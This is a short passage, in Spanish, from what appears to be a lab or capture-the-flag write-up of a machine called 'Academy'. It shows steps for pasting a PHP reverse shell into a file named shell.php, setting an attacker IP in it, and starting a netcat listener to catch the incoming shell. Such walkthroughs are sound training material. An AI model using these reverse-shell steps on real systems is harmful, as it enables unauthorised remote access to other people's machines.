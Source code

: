 ```
mousepad shell.php
```

- Se pega el texto copiado al archivo creado shell.php

![](/assets/images/2025-07-20-Maquina_Academy/academy_mousepadshell.png)

```
192.168.116.128     # ip atacante
```

- Configuración de mi ip (atacante)

![](/assets/images/2025-07-20-Maquina_Academy/academy_ipshell.png)

```
nc -nvlp 1234
```

- Nuestra máquina se pone en modo escucha a esperar algo.

![](/assets/images/2025-07-20-Maquina_Academy/academy_nc1234.png)
